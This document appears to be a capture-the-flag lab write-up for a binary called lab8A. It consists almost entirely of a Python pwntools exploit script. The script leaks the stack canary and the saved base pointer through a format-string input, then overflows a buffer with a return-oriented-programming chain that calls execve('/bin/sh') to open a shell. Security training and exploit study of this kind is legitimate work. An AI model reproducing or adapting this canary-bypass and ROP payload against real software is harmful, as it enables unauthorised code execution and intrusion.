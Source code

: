 **_Stage 1_**  
Info leak canary and ebp_main.  

**_Stage 2_**  
1. \*global_addr_check = 0xdeadbeef.  
2. Return-Oriented Programming.  

**_exploit.py?_**
```python
#!/usr/bin/env python2

from pwn import *

#
# setup context
#
#context.log_level = 'debug'

#
# start process
#
r = process('/levels/lab08/lab8A')
#r = remote('127.0.0.1', 8841)

#
# Stage 1, info leak
#
r.recvuntil('Name: ')
r.sendline("%130$08x#%131$08x#")
tmp = r.recvline()

canary = int(tmp.split('#')[0], 16)
ebp_main = int(tmp.split('#')[1], 16)

print "canary      =  %#08x" % canary
print "ebp of main =  %#08x" % ebp_main

#
# Stage 2, ROP
#

POP_EDX_ECX_EBX = p32(0x0806f250) # pop edx ; pop ecx ; pop ebx ; ret
XOR_EAX         = p32(0x08054ab0) # xor eax, eax ; ret
INC_EAX         = p32(0x0807bc96) # inc eax ; ret
INT_80          = p32(0x08048ef6) # int 0x80

# execve(char *filename, char **argv, char **envp)
payload = ''
payload += POP_EDX_ECX_EBX    # ebp_main - 32
payload += p32(ebp_main + 52) # ebp_main - 28 envp
payload += p32(ebp_main + 48) # ebp_main - 24 argv
payload += p32(ebp_main + 36) # ebp_main - 20 filename
payload += XOR_EAX            # clear eax
payload += INC_EAX * 11       # set eax = 0xb
payload += INT_80             # ebp_main + 32
payload += "/bin"             # ebp_main + 36
payload += "/sh\x00"          # ebp_main + 40
payload += "\x00\x00\x00\x00" # ebp_main + 44
payload += p32(ebp_main + 36) # ebp_main + 48
payload += "\x00\x00\x00\x00"

r.sendline("F")
r.recvuntil('<==  ')
r.sendline("A"*16 + "\xef\xbe\xad\xde" + "A"*4 + p32(canary) + p32(ebp_main) + payload)
r.interactive()
```